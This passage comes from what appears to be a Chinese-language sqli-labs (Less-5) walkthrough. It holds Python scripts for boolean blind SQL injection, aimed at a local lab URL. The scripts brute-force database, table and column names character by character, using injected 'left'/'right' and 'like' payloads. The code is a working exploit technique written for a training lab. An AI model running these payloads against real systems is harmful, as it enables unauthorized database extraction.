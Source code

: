```python
        # id = "99'or right((select group_concat(schema_name) from information_schema.schemata)," + str(i)+")='"+ s + flag +"'%23"
        tmp_url = url + "?id=" + id
        resp = requests.get(tmp_url)
        
        if "You are in" in resp.text:
            i += 1
            flag += s
            # 测试right函数
            # flag = s + flag
            # 最后一次成功拼接作为开始，判断超时
            start = time.time()
            print(f"[#]------{flag}")
            break
        else:
            pass
    end = time.time()
    # 目标服务器性能可能存在差距，适当调整超时时间
    try:
        if end - start > 1.5:
            if flag != "":
                print("盲注结束，检查flag是否是预期结果！")
            else:
                print("检测到长时间没有再获取到响应，该脚本布尔盲注可能并不适配退出")
            exit()  
    except NameError:
        print("在第一轮循环中未找到合适的开始字符，检查环境是否适合布尔盲注或扩充flags变量(可能出现的字符")
        exit()
```

![9](/medias/sqli-labs/9.png)

使用`like`代替`=`实现盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-5/"
i = 1
start = None  # 初始化 start 变量
print("脚本正在运行.......")
while True:
    
    for s in flags:
        # 爆库
        id = "99'or left((select group_concat(schema_name) from information_schema.schemata)," + str(i)+") like '"+ flag + s + "%25" +"'%23"
        # 爆表
        # id = "99'or left((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+")='"+ flag + s +"'%23"
        # 爆字段
        # id = "99'or left((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+")='"+ flag + s+"'%23"

        tmp_url = url + "?id=" + id
        resp = requests.get(tmp_url)
        
        if "You are in" in resp.text:
            i += 1
```